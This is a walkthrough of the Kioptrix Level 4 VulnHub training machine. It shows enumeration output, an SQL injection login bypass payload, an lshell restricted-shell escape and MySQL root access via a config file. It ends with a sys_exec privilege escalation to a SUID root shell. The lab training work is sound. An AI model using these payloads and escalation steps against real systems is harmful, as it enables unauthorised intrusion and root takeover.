



# VunHub: Kioptrix Level 4

[Kioptrix Level 4](https://www.vulnhub.com/entry/kioptrix-level-13-4,25/) is a difficult machine. It emphasizes on a numerous things from a not so common SQLi, limited shell to privilege escalation using MySQL function.

So, lets begin!

## Enumeration

The first thing to do for enumeration is start an `nmap` scan against the machine's IP address and check if some webpage is hosted on the server.

The results obtained from `nmap` are

```
┌──(kali㉿kali)-[~/Desktop/oscp/vulnhub/kioptrix_lv4]
└─$ nmap -sS -p- -T4 -oN open_ports 192.168.0.194
# Nmap 7.91 scan initiated Sat May  1 13:57:46 2021 as: nmap -sS -p- -T4 -oN open_ports 192.168.0.194
Nmap scan report for 192.168.0.194
Host is up (0.053s latency).
Not shown: 39528 closed ports, 26003 filtered ports
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 08:00:27:F0:20:A9 (Oracle VirtualBox virtual NIC)

# Nmap done at Sat May  1 13:58:21 2021 -- 1 IP address (1 host up) scanned in 34.89 seconds

                                                                                                                     
┌──(kali㉿kali)-[~/Desktop/oscp/vulnhub/kioptrix_lv4]
└─$ nmap -sC -sV -O -oN port_details -p22,80,139,445 192.168.0.194
# Nmap 7.91 scan initiated Sat May  1 13:58:41 2021 as: nmap -sC -sV -O -oN port_details -p22,80,139,445 192.168.0.194
Nmap scan report for 192.168.0.194
Host is up (0.0013s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 
|   1024 9b:ad:4f:f2:1e:c5:f2:39:14:b9:d3:a0:0b:e8:41:71 (DSA)
|_  2048 85:40:c6:d5:41:26:05:34:ad:f8:6e:f2:a7:6b:4f:0e (RSA)
80/tcp  open  http        Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.28a (workgroup: WORKGROUP)
MAC Address: 08:00:27:F0:20:A9 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.33
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -52m00s, deviation: 2h49m43s, median: -2h52m01s
|_nbstat: NetBIOS name: KIOPTRIX4, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.28a)
|   Computer name: Kioptrix4
|   NetBIOS computer name: 
|   Domain name: localdomain
|   FQDN: Kioptrix4.localdomain
|_  System time: 2021-05-01T11:06:54-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat May  1 13:59:09 2021 -- 1 IP address (1 host up) scanned in 28.45 seconds

```

Here, it can be seen that only 4 ports are open which are 22, 80, 139 and 445. As port 80 is open, we check the web page hosted over there.


Two things can be figured out here, which are:

1. The login page could be tested for SQLi.
2. If the "LigGoat Secure Login" is some real application, then we can look for an exploit for the same.

When we search for "LigGoat" using `searchsploit` or Google, we can't find any useful information. So, we can can for SQLi in the username and password field on the form.

We can begin with the simplest SQLi payload i.e. `' OR 1=1--` in both username and password and in the response to that we get an error



This confirms that there is a SQLi possible. But any query does not provide us access. So, keeping this on help we can look for some other methods to get access to the machine. We know that other than port 80, ports 22, 139 and 445 are also open. So, we can use `enum4linux` to see if we can find some useful information. Along with that we can also run a directory traversal attack on the target IP.

From the output of `enum4linux`, we get 3 usernames:

```
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\loneferret (Local User)
S-1-22-1-1001 Unix User\john (Local User)
S-1-22-1-1002 Unix User\robert (Local User)
```

And from the output of `ffuf`, we get the following directories

```
┌──(kali㉿kali)-[~/Desktop/oscp/vulnhub/kioptrix_lv4]
└─$ ffuf -u http://192.168.0.195/FUZZ -w /usr/share/wordlists/dirb/common.txt -s                         
.htaccess
.htpasswd
.hta

cgi-bin/
images
index.php
index
john
logout
member
server-status
```

From these results, the directory named `/john` appears to be interesting



The link `john.php` redirects us back to the login page itself. We can also check if such directory exists for other usernames obtained from `enum4linux`.

And we can find that a directory `/robert` also exists, similar to that of `/john` but nothing for `loneferret`. Also, the file `robert.php` redirects to the same login page as `john.php` did.

We have 3 suspected usernames, so we can try SQLi using them i.e. enter the username as it is and provide `' OR 1=1--` as password but we get the same `mysql_num_rows()` error. It might be the case due to the trailing `--`, so we can try to replace it with `#`. Now our payload would be like `' OR 1=1#`.

With username as `john` and password as `' OR 1=1#`, we get logged in as "john" and get his credentials



Looking at the URL, we can see that we can change the passed value of username from `john` to `robert` which might reveal the password for "robert" as well. But nothing happens and we still stay on the same. page. 

## Gaining Access

We can try to use these credentials to get access to the machine via SSH.

```bash
┌──(kali㉿kali)-[~/Desktop/oscp/vulnhub/kioptrix_lv4]
└─$ ssh john@192.168.0.188      
The authenticity of host '192.168.0.188 (192.168.0.188)' can't be established.
RSA key fingerprint is SHA256:3fqlLtTAindnY7CGwxoXJ9M2rQF6nn35SFMTVv56lww.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.0.188' (RSA) to the list of known hosts.
john@192.168.0.188's password: 
Welcome to LigGoat Security Systems - We are Watching
== Welcome LigGoat Employee ==
LigGoat Shell is in place so you  don't screw up
Type '?' or 'help' to get the list of allowed commands
john:~$ ls
john:~$ cd ..
*** forbidden path -> "/home/"
*** You have 0 warning(s) left, before getting kicked out.
This incident has been reported.
john:~$ pwd
*** unknown command: pwd
john:~$ whoami
*** unknown command: whoami
john:~$ 
```

But it appears that we are in a limited shell as many of the usual command are not working here. Also, at the beginning it says that we check the allowed commands by entering `?` or `help`.

```bash
john:~$ help
cd  clear  echo  exit  help  ll  lpath  ls
```

It is clear that we are allowed to execute a limited set of commands.

From the above output, it is also clear that we are only allowed to run these limited commands in the current directory only and accessing any other directory is forbidden.

After trying multiple command combination, when we enter `help help` we get the following output

```bash
john:~$ help help
Limited Shell (lshell) limited help.
Cheers.
```

We can search on Google to look for methods to escape `lshell` and one such article is [this](https://www.aldeid.com/wiki/Lshell). In the article it has been mentioned that this shell can be escaped using `echo` as

```bash
john:~$ echo os.system("/bin/bash")                                                                                 
john@Kioptrix4:~$ id
uid=1001(john) gid=1001(john) groups=1001(john)
john@Kioptrix4:~$ whoami
john
john@Kioptrix4:~$ pwd
/home/john
```

## Privilege Escalation

To get an idea of the system, we can run basic commands like

```bash
john@Kioptrix4:~$ pwd
/home/john
john@Kioptrix4:~$ hostname 
Kioptrix4
john@Kioptrix4:~$ uname -a
Linux Kioptrix4 2.6.24-24-server #1 SMP Tue Jul 7 20:21:17 UTC 2009 i686 GNU/Linux
john@Kioptrix4:~$ cat /proc/version
Linux version 2.6.24-24-server (buildd@palmer) (gcc version 4.2.4 (Ubuntu 4.2.4-1ubuntu4)) #1 SMP Tue Jul 7 20:21:17 UTC 2009
john@Kioptrix4:~$ cat /etc/*-release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=8.04
DISTRIB_CODENAME=hardy
DISTRIB_DESCRIPTION="Ubuntu 8.04.3 LTS"
```

We can look for exploits related to **Linux version 2.6.24-24-server**. It can be easily found out that this version is susceptible to the Dirty Cow Exploit. So, we can download it on our attacker machine and send it to the target machine with `python` server and `wget`. But the issue here is when we try to compile the exploit on the target machine it says that `gcc` is not present on the system. So, we need to think of some other method and if we don't find anything else then we'll have to create a new VM with this same kernel where we can compile the exploit and then run it on the target machine.

On further enumeration we can find out that there are users named `loneferret` and `robert` on the system. We can try to switch to them but as we don't know the password the switching fails.

We can also check the process running as `root` and as our current user on the machine

```bash
john@Kioptrix4:~$ ps aux | grep ^root
root         1  0.0  0.3   2844  1696 ?        Ss   02:00   0:01 /sbin/init
root         2  0.0  0.0      0     0 ?        S<   02:00   0:00 [kthreadd]
root         3  0.0  0.0      0     0 ?        S<   02:00   0:00 [migration/0]
root         4  0.0  0.0      0     0 ?        S<   02:00   0:00 [ksoftirqd/0]
root         5  0.0  0.0      0     0 ?        S<   02:00   0:00 [watchdog/0]
root         6  0.0  0.0      0     0 ?        S<   02:00   0:02 [events/0]
root         7  0.0  0.0      0     0 ?        S<   02:00   0:00 [khelper]
root        41  0.0  0.0      0     0 ?        S<   02:00   0:00 [kblockd/0]
root        44  0.0  0.0      0     0 ?        S<   02:00   0:00 [kacpid]
root        45  0.0  0.0      0     0 ?        S<   02:00   0:00 [kacpi_notify]
root        88  0.0  0.0      0     0 ?        S<   02:00   0:00 [kseriod]
root       127  0.0  0.0      0     0 ?        S    02:00   0:00 [pdflush]
root       128  0.0  0.0      0     0 ?        S    02:00   0:00 [pdflush]
root       129  0.0  0.0      0     0 ?        S<   02:00   0:00 [kswapd0]
root       171  0.0  0.0      0     0 ?        S<   02:00   0:00 [aio/0]
root      1263  0.0  0.0      0     0 ?        S<   02:00   0:00 [ata/0]
root      1266  0.0  0.0      0     0 ?        S<   02:00   0:00 [ata_aux]
root      1275  0.0  0.0      0     0 ?        S<   02:00   0:00 [scsi_eh_0]
root      1278  0.0  0.0      0     0 ?        S<   02:00   0:00 [scsi_eh_1]
root      1294  0.0  0.0      0     0 ?        S<   02:00   0:00 [ksuspend_usbd]
root      1297  0.0  0.0      0     0 ?        S<   02:00   0:00 [khubd]
root      2133  0.0  0.0      0     0 ?        S<   02:00   0:00 [kjournald]
root      2302  0.0  0.1   2104   704 ?        S<s  02:00   0:00 /sbin/udevd --daemon
root      2499  0.0  0.0      0     0 ?        S<   02:00   0:00 [kpsmoused]
root      3787  0.0  0.0   1716   484 tty4     Ss+  02:00   0:00 /sbin/getty 38400 tty4
root      3788  0.0  0.0   1716   488 tty5     Ss+  02:00   0:00 /sbin/getty 38400 tty5
root      3793  0.0  0.0   1716   484 tty2     Ss+  02:00   0:00 /sbin/getty 38400 tty2
root      3795  0.0  0.0   1716   492 tty3     Ss+  02:00   0:00 /sbin/getty 38400 tty3
root      3798  0.0  0.0   1716   488 tty6     Ss+  02:00   0:00 /sbin/getty 38400 tty6
root      3855  0.0  0.1   1872   540 ?        S    02:00   0:00 /bin/dd bs 1 if /proc/kmsg of /var/run/klogd/kmsg
root      3876  0.0  0.1   5316   988 ?        Ss   02:00   0:00 /usr/sbin/sshd
root      3932  0.0  0.1   1772   524 ?        S    02:00   0:00 /bin/sh /usr/bin/mysqld_safe
root      3974  0.0  3.1 126988 16268 ?        Sl   02:00   0:02 /usr/sbin/mysqld --basedir=/usr --datadir=/var/lib/m
root      3976  0.0  0.1   1700   560 ?        S    02:00   0:00 logger -p daemon.err -t mysqld_safe -i -t mysqld
root      4049  0.0  0.2   6528  1324 ?        Ss   02:00   0:00 /usr/sbin/nmbd -D
root      4051  0.0  0.4  10108  2336 ?        Ss   02:00   0:00 /usr/sbin/smbd -D
root      4065  0.0  0.1  10108  1024 ?        S    02:00   0:00 /usr/sbin/smbd -D
root      4066  0.0  0.2   8084  1344 ?        Ss   02:00   0:00 /usr/sbin/winbindd
root      4071  0.0  0.2   8084  1164 ?        S    02:00   0:00 /usr/sbin/winbindd
root      4098  0.0  0.1   2104   888 ?        Ss   02:00   0:00 /usr/sbin/cron
root      4120  0.0  1.2  20464  6188 ?        Ss   02:00   0:00 /usr/sbin/apache2 -k start
root      4177  0.0  0.0   1716   492 tty1     Ss+  02:00   0:00 /sbin/getty 38400 tty1
root      4239  0.0  0.7  11360  3720 ?        Ss   02:34   0:00 sshd: john [priv]
root      4259  0.0  0.1   8084   872 ?        S    03:02   0:00 /usr/sbin/winbindd
root      4260  0.0  0.2   8092  1264 ?        S    03:02   0:00 /usr/sbin/winbindd
```

From these processes, it can be seen that MySQL, apache2 and cron are being run as `root`. So, we can first check the cronjobs to see if we can find something useful over there

```bash
john@Kioptrix4:~$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
```

We can't see any odd cronjob running over here. Now, we know that MySQL is being run as `root` and also that this is connected with the webpages because of which we were able to get the credentials of user "john". So, we can go and check the files in `/var/www` for any information that can be used to access MySQL database on the server.

```MySQL
john@Kioptrix4:/var/www$ cat checklogin.php 
<?php
ob_start();
$host="localhost"; // Host name
$username="root"; // Mysql username
$password=""; // Mysql password
$db_name="members"; // Database name
$tbl_name="members"; // Table name
```

In the file named as `checklogin.php`, we can find the credentials to access the MySQL database as `root`. 

> It is a not at all a good practice to keep no password for access a database.

Now, we can log into the MySQL database and check for any useful information over here.

```Mysql
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema | 
| members            | 
| mysql              | 
+--------------------+
```

The `members` database appears to be interesting over here. So, we can explore it first.

```bash
mysql> show tables;  
+-------------------+
| Tables_in_members |
+-------------------+
| members           | 
+-------------------+
1 row in set (0.00 sec)

mysql> select * from members;
+----+----------+-----------------------+
| id | username | password              |
+----+----------+-----------------------+
|  1 | john     | MyNameIsJohn          | 
|  2 | robert   | ADGAdsafdfwt4gadfga== | 
+----+----------+-----------------------+
2 rows in set (0.00 sec)
```

Now, that we have the password for user "robert" as well we can switch to his account. Also, the password appears to be a base64 encoded but it is not, so we can directly use the value as password.

After switch, again we enter a restricted shell for user "robert" as well. So, we can use the same `echo` command to escape this shell as well and check if user "robert" has access to some commands as `sudo` that we can use to escalate our privileges.

```bash
robert@Kioptrix4:~$ sudo -l
[sudo] password for robert: 
Sorry, user robert may not run sudo on Kioptrix4.
```

But even "robert" does not have access to any commands as `sudo`. We can check "robert's" home directory and files with SUID bit set but won't find anything useful. 

At this point it almost appears as a dead end. But we know that this machine is vulnerable in some or the other way. So, we must keep exploring.

We don't find any useful process that is running as user "robert" or "john".

At this point if we reconsider all the information that we have then from that the most important thing is that we have access to MySQL as `root`. So, we can start looking for methods to use MySQL for privilege escalation.

We can find one article [here](https://recipeforroot.com/mysql-to-system-root/) to gain root as by using the MySQL functions. This can be done by first creating a function named `sys_exec`.

```bash
mysql> use members;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> create function sys_exec return integer soname 'lib_mysqludf_sys.so';
ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'return integer soname 'lib_mysqludf_sys.so'' at line 1
mysql> create function sys_exec returns integer soname 'lib_mysqludf_sys.so';
ERROR 1125 (HY000): Function 'sys_exec' already exists
```

But it appears that the function `sys_exec` already exists in the database. We can check these functions in the database `mysql` in a table called `func`.

```bash
mysql> use mysql;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+---------------------------+
| Tables_in_mysql           |
+---------------------------+
| columns_priv              | 
| db                        | 
| func                      | 
| help_category             | 
| help_keyword              | 
| help_relation             | 
| help_topic                | 
| host                      | 
| proc                      | 
| procs_priv                | 
| tables_priv               | 
| time_zone                 | 
| time_zone_leap_second     | 
| time_zone_name            | 
| time_zone_transition      | 
| time_zone_transition_type | 
| user                      | 
+---------------------------+
17 rows in set (0.00 sec)

mysql> select * from func;
+-----------------------+-----+---------------------+----------+
| name                  | ret | dl                  | type     |
+-----------------------+-----+---------------------+----------+
| lib_mysqludf_sys_info |   0 | lib_mysqludf_sys.so | function | 
| sys_exec              |   0 | lib_mysqludf_sys.so | function | 
+-----------------------+-----+---------------------+----------+
2 rows in set (0.00 sec)
```

And here it can be seen that `sys_exec` already exists. So, all we need to do now is use this function to create a copy of `/bin/bash` and set its SUID bit so that we can access that copied binary as `root`.

```bash
mysql> select * from func;
+-----------------------+-----+---------------------+----------+
| name                  | ret | dl                  | type     |
+-----------------------+-----+---------------------+----------+
| lib_mysqludf_sys_info |   0 | lib_mysqludf_sys.so | function | 
| sys_exec              |   0 | lib_mysqludf_sys.so | function | 
+-----------------------+-----+---------------------+----------+
2 rows in set (0.00 sec)

mysql> select sys_exec("cp /bin/bash /tmp/myroot; chmod +s /tmp/myroot");
+------------------------------------------------------------+
| sys_exec("cp /bin/bash /tmp/myroot; chmod +s /tmp/myroot") |
+------------------------------------------------------------+
| NULL                                                       | 
+------------------------------------------------------------+
1 row in set (0.01 sec)

mysql> exit
Bye
robert@Kioptrix4:~$ /tmp/myroot -p
myroot-3.2# whoami
root
myroot-3.2# id
uid=1002(robert) gid=1002(robert) euid=0(root) egid=0(root) groups=1002(robert)
```

And there we get the access to the machine as `root`.

## Mind Maps

1. Enumeration

   

2. Privilege Escalation

   

## Some Key Points to Take Away

1. Check the password field as well for SQLi. (We usually look for SQLi only in username)
2. Check the processes running as `root` and look for privilege escalation using those processes.
3. When stuck with a restricted shell first determine the type of restricted shell and then search for methods to escape it.

## Reference Links

1. Kioptrix Level 4: https://www.vulnhub.com/entry/kioptrix-level-13-4,25/
2. Lshell: https://www.aldeid.com/wiki/Lshell
3. MySQL to System Root: https://recipeforroot.com/mysql-to-system-root/